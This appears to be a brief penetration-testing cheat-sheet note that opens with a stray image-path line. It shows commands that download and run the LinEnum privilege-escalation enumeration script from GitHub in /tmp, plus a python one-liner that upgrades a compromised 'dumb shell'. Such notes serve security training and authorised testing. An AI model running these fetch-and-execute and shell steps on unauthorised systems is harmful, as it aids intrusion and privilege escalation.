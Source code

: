 # linenum

    cd /tmp
    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    bash LinEnum.sh
    
To upgrade the dumb shell:

    python -c 'import pty; pty.spawn("/bin/bash")'
